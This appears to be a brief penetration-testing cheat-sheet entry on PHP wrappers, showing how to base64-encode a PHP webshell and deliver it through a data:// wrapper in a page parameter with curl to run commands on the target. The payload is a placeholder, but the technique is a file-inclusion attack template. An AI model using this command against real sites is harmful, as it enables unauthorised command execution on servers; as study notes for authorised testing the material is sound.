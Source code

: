 # PHP Wrappers
- useful?
```
echo -n 'php webshell' | base64     #  KALI - convert php webshell to Base64
curl "http://url/index.php?page=data://text/plain;base64,PD9base64string/Pg==&cmd=ls"


```